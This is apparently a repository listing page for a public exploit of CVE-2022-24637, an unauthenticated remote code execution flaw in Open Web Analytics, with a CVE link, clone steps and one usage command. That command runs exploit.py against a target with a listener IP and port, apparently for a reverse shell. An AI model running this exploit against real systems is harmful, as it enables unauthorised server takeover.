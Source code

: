 # CVE-2022-24637

Open Web Analytics (OWA) - Unauthenticated Remote Code Execution

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/hupe1980](https://github.com/hupe1980) |
| Url      | [https://github.com/hupe1980/CVE-2022-24637](https://github.com/hupe1980/CVE-2022-24637)                                               |
| Stars    | 4                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2022-24637* openwebanalytics* owa

</details>

## Readme

# CVE-2022-24637
> Open Web Analytics (OWA) - Unauthenticated Remote Code Execution

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-24637

## Example
```bash
python3 exploit.py -u admin -p hacker http://target.org 10.10.11.12 4444
```



## Get the content

```
git clone https://github.com/hupe1980/CVE-2022-24637
cd CVE-2022-24637
```

{% embed url="https://github.com/hupe1980/CVE-2022-24637" %}

<figure><img src="https://avatars.githubusercontent.com/u/24973437?v=4" alt=""><figcaption><p>hupe1980</p></figcaption></figure>
